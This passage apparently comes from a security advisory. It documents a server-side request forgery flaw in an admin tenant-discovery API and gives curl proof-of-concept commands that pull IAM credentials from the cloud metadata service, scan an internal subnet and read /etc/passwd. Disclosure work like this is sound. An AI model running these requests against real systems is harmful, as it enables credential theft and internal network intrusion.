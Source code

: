 #### Proof of Concept

**Attack Scenario 1: AWS Metadata Service Access**

```bash
# Attacker is authenticated admin user
# Attacker triggers service discovery with malicious URL

curl -X POST http://localhost:3000/api/admin/tenants/123/discover \
  -H "Authorization: Bearer <admin-token>" \
  -H "Content-Type: application/json" \
  -d '{
    "sapBaseUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "client": "100",
    "authType": "OAUTH"
  }'

# Application makes request to AWS metadata service
# Response contains IAM credentials:
{
  "success": false,
  "errors": ["Failed to discover services: Invalid OData response"],
  "data": "<IAM_CREDENTIALS_JSON>"
}
```

**Attack Scenario 2: Internal Network Scanning**

```bash
# Attacker scans internal network
for ip in 192.168.1.{1..254}; do
  curl -X POST http://localhost:3000/api/admin/tenants/123/discover \
    -H "Authorization: Bearer <admin-token>" \
    -d "{\"sapBaseUrl\":\"http://$ip:8080\"}" &
done

# Application acts as port scanner for internal network
# Response times/errors reveal open ports and services
```

**Attack Scenario 3: File Protocol Exploitation**

```bash
# Attempt to read local files (if file:// protocol not blocked)
curl -X POST http://localhost:3000/api/admin/tenants/123/discover \
  -d '{"sapBaseUrl":"file:///etc/passwd"}'

# May expose file contents in error messages
```

#### Impact

1. **Cloud Metadata Access:** Steal AWS/Azure/GCP credentials
2. **Internal Network Scanning:** Map internal infrastructure
3. **Bypass Firewall:** Access internal services via application server
4. **Credential Theft:** Access internal credential stores, key management systems
5. **Data Exfiltration:** Use application as proxy to external attacker server
6. **Denial of Service:** Make application consume resources on expensive requests
